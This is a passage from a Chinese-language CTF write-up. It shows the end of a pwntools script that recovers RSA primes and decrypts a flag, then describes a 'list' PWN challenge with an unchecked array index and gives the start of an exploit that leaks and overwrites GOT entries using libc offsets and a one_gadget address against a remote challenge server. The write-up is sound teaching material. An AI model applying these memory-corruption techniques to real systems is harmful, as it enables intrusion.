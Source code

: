 ```
print '--------------step1 finished--------------'
#get n and new_e
p.sendline('2')
p.recvuntil('n = ')
n = int(p.recvuntil('n')[:-1])
print 'n -&gt;' , n
p.recvuntil('e = ')
new_e = int(p.recvuntil('n')[:-1])
print 'new_e -&gt;' , new_e
print '--------------step2 finished--------------'
#get new_e -&gt; c
p.sendline('3')
p.recvuntil('flag_enc = ')
c = int(p.recvuntil('n')[:-1])
print 'c -&gt;' , c
print '--------------step3 finished--------------'
#use n , e , d to get p q
p , q = getpq(n , e , d)
print 'p -&gt;' , p
print 'q -&gt;' , q
print '--------------step4 finished--------------'
#use n and new_d to crack c
phi = (p - 1) * (q - 1)
print 'phi -&gt;' , phi
new_d = libnum.modular.invmod(new_e , phi)
print 'new_d -&gt;' , new_d
print libnum.n2s(pow(c , new_d , n))
print '--------------all finished--------------'
```

结果如下：

[![](https://p3.ssl.qhimg.com/t01ea09fa08e9b1aa9b.png)](https://p3.ssl.qhimg.com/t01ea09fa08e9b1aa9b.png)



**9.list    类型：PWN    分值：100分**

漏洞位置：在删除函数和添加函数中只对数组上界做了校验，可以无限删除数组。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015fab578d60cdedde.png)

利用思路：通过不断删除数组下标，将下标所引导plt表中指向got表的指针，通过指针leak地址和修改got内容

exp如下：



```
from pwn import *
context.log_level = 'debug'
slocal =1
slog  =1
atoi_off = 0x0000000000036e80
system_off = 0x0000000000045390
one_off = 0x4526a
if slocal:
    p = process("./list",env=`{`"LD_PRELOAD":"./libc.so.6"`}`)
else:
    p = remote("106.75.8.58",13579)#106.75.8.58 13579
def dele():
    p.recvuntil("5.Exit")
    p.sendline("4")
def add(con):
    p.recvuntil("5.Exit")
    p.sendline("1")
```